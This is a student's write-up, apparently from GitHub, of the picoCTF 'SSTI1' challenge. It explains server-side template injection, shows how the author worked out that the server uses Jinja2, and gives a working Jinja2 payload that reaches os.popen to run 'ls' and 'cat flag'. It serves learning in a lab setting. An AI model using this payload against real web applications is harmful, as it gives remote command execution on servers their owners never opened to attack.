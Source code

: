 ## today topic is about the SSTI
### this question is form the pico CTF
[picoCTF:](https://play.picoctf.org/practice)
![SSTI1:](pic/The_qz.png)
<br>
[jinja_doc](https://jinja.palletsprojects.com/en/stable/api/#jinja2.Template.render_async)
<br>
<br>

![homeqz](pic/home_qz.png)
<br>

what is the SSTI:
    A server-side template injection attack (SSTI) is when a threat actor exploits a template's native syntax and injects malicious payloads into the template. The compromised template is then executed server-side. -- from google
<br>
what we need to know is the ==template engine==.

Jinja2 for Python, Pug, Handlebars, and EJS for JavaScript/Node.js, JSP for Java and Twig for php.
<br>
by the way,A template engine is a software tool that combines templates with data to generate dynamic output, most commonly in the form of HTML for web pages.
<br>
When I into the web. I saw a bar for input the words and print out. and I just learn a little SSTI.
<br>
first one I try with the Freemaker -- java.

![freemaker](pic/tryWith_freemaker.png)

but It's not work...
<br>
SO I try with other Grammar. And It's works :D

```pyORphp

{{7*7}}

```

![jinjaORtwig](pic/jinjaOrTwig.png)
<br>

but now we have new problem. That is we don't know It's Jinja, twig or other engine. QwQ
<br>
I find around, Until I saw the Network. AwA

![jinja](pic/know_py.png)

<br>
I saw the sever is python, then this web 99% made of Jinja
<br>

I read The Jinja doc and search the command.

![doc](pic/read_doc.png)
<br>

Finally.

```python

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('command').read() }}

```

<br>
the "self" is the start point. "_TemplateReference__context" is the that start with double underscores are mangled to include the class name. "cycler" is the tool for find the obj. Accessing an object’s "__init__" attribute yields the function object that constructs that type."__globals__" is for using the "os" last we use popen for run command. and read()
<br>

```python

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}

```

![findflag](pic/findFlag.png)

print the file

```python

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}

```

![catflag](pic/catFlag.png)

and we found the flag :D
<br>

something want to say:
this one question it was kind a challenge for me, I have to learn the engine, read doc. But finally I did :D
<br>
I feel a litte pressure about the Scioly, Because I the Ell in school. have a good Conversation with team it's hard.
<br>
but
<br>
--船到桥头自然直
<br>
--everything will work out in the end


